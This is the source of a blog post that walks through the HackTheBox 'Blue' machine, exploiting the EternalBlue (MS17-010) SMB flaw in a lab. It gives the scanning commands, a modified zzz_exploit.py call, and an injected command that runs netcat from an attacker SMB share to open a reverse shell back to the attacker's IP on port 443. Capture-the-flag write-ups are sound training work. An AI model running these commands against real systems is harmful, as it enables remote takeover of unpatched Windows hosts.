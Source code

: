 ```yaml
---
layout: post
comments: true
title: "Blue HTB Write Up"
tags: ['hackthebox', 'writeup', 'eternal-blue']
---
```


## Introduction
Today we are going to PWN a HackTheBox machine called Blue.
Blue is an easy machine, we are going to use tools such as nmap to scan the ports, crackmapexec to recognise all the network devices via smb.
We are going to exploit an EternalBlue vulnerability, and finally we are going to learn how to inject code in the victim's machine through this vulnerability.

## Dependencies
* In order to everything work you must have Python2 and pip2 installed.
[HowToInstallPip2Parrot](../../../../2021/12/30/installing-pip2-on-parrot.html)

* crackmapexec
```bash
sudo apt install crackmapexec
```

## Ports recognizement
The ip address of this machine is the 10.10.10.40.
First we need to indetify all the ports open on the machine, we are going to run:
```bash
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.10.40 -oG ports
```
* -sS -> TCP SYN (Stealth) Scan
* --min-rate -> specify the number of packets you are sending per second
* -p- -> scan all range of ports
* --open -> only scan open ports
* -vvv -> while the program in running you can get additional information about hte proccess
* -n -> don't use DNS resolution
* -Pn -> use it if the host is blocking ping proves
* -oG -> return the result in a grepeable file in order to proccess it later

We are going to use [getPorts](https://github.com/isuckatlinux/getPorts) to extract all the relevant data from the nmap output
```bash
getPorts ports
```

Once we extracted all the ports we are going to find out the service they are running:
```bash
nmap -sC -sV -p135,139,445,49153 10.10.10.40 -oN services
```
* -oN -> return the output into a nmap file
* -sV -> enum services
* -p*p1, p2, pn* -> specify this ports


We can see port 445 open, this might be a smb vulnerability, let's find out.
With [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) we can see all the devices using a service over the entire network (beside other uses)
```bash
crackmapexec smb 10.10.10.0/24
```
*Because we are targeting a particular computer we could also specify this computer and not the entire network*



We see the host is runnning windows7 🤓 <br>
MS017, most know as Eternal Blue, was a vulnerability in the smb protocol that affectes WindowsXP and windows7 computers.
If this haven't been patched on the machine this means that we already got a very serious vulneravilty in the system that will allow us to execute code as admin.

We are going to see two ways of see if this machine is vulnerable:
1. Nmap scripts.<br>
Nmap have a lot of scripts that allows checking multiple vulneravilities. These scripts are sorted by categories.
In order to see all the categories in nmap we could run:
```bash
locate .nse | xargs grep "categories" | grep -oP '"*"' | sort -u
```
We can see a bunch of categories, we will cover all the categories in another post soon 🤖.
For the time we are going to be using "vuln and safe"
So lets run:
```bash
nmap --script "vuln and safe" -p445 10.10.10.40 -oN smbVulnerable
```
![image1](../assets/images/blue-htb/nmap_scripts_output.png)
BINGO! We can see in the picture the service is vulnerable

2. Eternal blue checker <br>
We are going to use a [checker](https://github.com/worawit/MS17-010) 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
```
The checker is named *checker.py*<br>
We run:
```bash
python2 checker.py 10.10.10.40
```
We can see all the pipes are denied.
We have to try the user 'guest'. We look into the code and we see two fields empty, the username and the password.
We introduce 'guest' in the username string.
<br>
We run again:
```bash
python2 checker.py 10.10.10.40
```

![image2](https://abusinglinux.com/assets/images/blue_htb/username_guest.png)<br>
As we can see we have a bunch of pipes that reported OK. <br>


## Exploiting
In the exploiting phase we could use Metasploit, but there is an issue with that. Eternal blue is a kernel-level vulnerability, that means that if anything goes wrong (or everything doesn't go perfect) we most likely to have blue screen or very inestable shells.
That's why in these cases where you want to have all control is actually better to just inject the code yourself.

In order to proceed to inject code we are going to use the repo we used before to check the vulnerability [MS17-010](https://github.com/worawit/MS17-010).

Now we are going to use the zzz_exploit.py
This exploit run a trivial command on the victim's machine. We are going to find that command and replace it with our personal one.
The method we are going to edit is *smb_pwn*.<br>
We are going to comment all lines of the code except the first one. And we are going to decomment the *service_exec* line <br>
The code should look like this:<br>
![image3](https://abusinglinux.com/assets/images/blue_htb/zzz_modified.PNG)

We are going to exploit this vulnerability by sharing a folder with smb witch contains [netcat](https://es.wikipedia.org/wiki/Netcat) and we are going to run netcat from the victims machine to produce a reverse shell.
The command we have to inject is the next
```bash
cmd /c \\<your_tun0_ip>\sharedFolder\nc.exe -e cmd <your_tun0_ip> 443
```
So you the line have to look like that:
```python
service_exec(conn, r'cmd /c \\<your_tun0_ip>\sharedFolder\nc.exe -e cmd <your_tun0_ip> 443')
```
In addition, we have to set the username to 'guest' just how we did on the checker

So, the steps are:
1. Share a folder with the netcat
    * We have to locate netcat in our machine and copy it to our folder wich we are going to be sharing soon
    ```bash
    locate nc.exe
    cp *path_to_netcat* $(pwd)
    ```
    If you are not able to locate nc.exe here's a link to download [netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)<br>
    *At this point we have to have netcat in our folder*

    * Share the folder
    ```bash
    imppacket-smbserver sharedFolder $(pwd) -smb2support 
    ```
    *The flag smb2support is no necessary beacuse we are dealing with version one of the smb protocol, but It's a good practice to give support v2 just in case*


2. Listening at port 443 to get the reverse shell
```bash
    nc -nlvp 443
```
3. Finallly exploiting!
We could use any pipe the checker reported to be OK.<br>
We are going to use samr

```bash
zzz_exploit.py 10.10.10.40 samr
```

>BOOM 💥

If everything it's working fine we should see a shell.
We could run
```cmd
whoami
```
We should see nt authority system, that means that we have admin privileges.

Now let's see the flags:
```cmd
cd C:\Users\haris\Desktop
type user.txt

cd C:\Users\Administrator\Desktop
type root.txt
```

Thank's all for reading this! I hope you enjoyed this writing, any feedback is welcome.

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://isuckatlinux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}